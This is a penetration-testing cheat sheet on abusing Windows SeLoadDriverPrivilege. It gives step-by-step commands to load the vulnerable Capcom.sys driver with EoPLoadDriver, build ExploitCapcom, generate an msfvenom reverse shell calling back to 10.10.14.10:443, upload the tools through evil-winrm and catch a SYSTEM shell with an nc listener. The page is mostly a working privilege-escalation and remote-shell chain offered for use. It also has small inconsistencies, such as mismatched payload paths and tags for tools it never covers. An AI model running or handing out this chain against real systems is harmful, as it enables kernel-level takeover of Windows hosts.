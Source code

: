 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2024-7-18
tags: ["SeLoadDriverPrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


---
### Abuse #1: Install malicious driver

#### 1. Compile eoploaddriver

<div>

```bash
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

</div>

<small>*Ref: [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)*</small>

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

<div>

```bash
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\Windows\\Tasks\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

</div>

<small>*Ref: [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)*</small>

#### 3. Create stageless payload

<div>

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o rev.exe
```

</div>

#### 4. Upload

<div>

```powershell
# For example (evil-winrm)
upload Eoploaddriver.exe C:\ProgramData\Eoploaddriver.exe
```

```powershell
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```powershell
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```powershell
upload rev.exe C:\ProgramData\rev.exe
```

</div>

#### 5. Exploit

<div>

```bash
# Start a nc listener
rlwrap nc -lvnp 443
```

```powershell
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```powershell
C:\ProgramData\ExploitCapcom.exe
```

</div>

<br>